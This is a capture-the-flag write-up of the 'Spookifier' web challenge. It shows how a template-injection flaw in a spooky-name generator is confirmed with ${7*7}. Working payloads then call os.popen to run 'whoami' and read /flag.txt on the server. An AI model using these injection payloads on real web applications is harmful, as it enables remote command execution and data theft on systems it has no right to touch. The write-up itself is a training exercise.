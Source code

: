 # Spookifier Write-up

Category: Web

CHALLENGE DESCRIPTION

There's a new trend of an application that generates a spooky name for you. Users of that application later discovered that their real names were also magically changed, causing havoc in their life. Could you help bring down this application?

![image](https://github.com/user-attachments/assets/89293205-d861-4bc7-9675-5c8084d5e71f)

We have userinput where our text is displayed in different fonts

![image](https://github.com/user-attachments/assets/d9d81d43-5bad-48c5-b6fb-280cd990252c)

We can try to put ssti payload

    ${7*7}

![image](https://github.com/user-attachments/assets/8bb65801-d552-4ff5-96f5-a61783b5029f)

    ${self.module.cache.util.os.popen('whoami').read()}

![image](https://github.com/user-attachments/assets/cf815f00-cd0e-431b-9d5a-fc6843806f8f)

    ${self.module.cache.util.os.popen('cat /flag.txt').read()}

![image](https://github.com/user-attachments/assets/d92b9df5-9922-441b-90a4-bfa66a91005a)
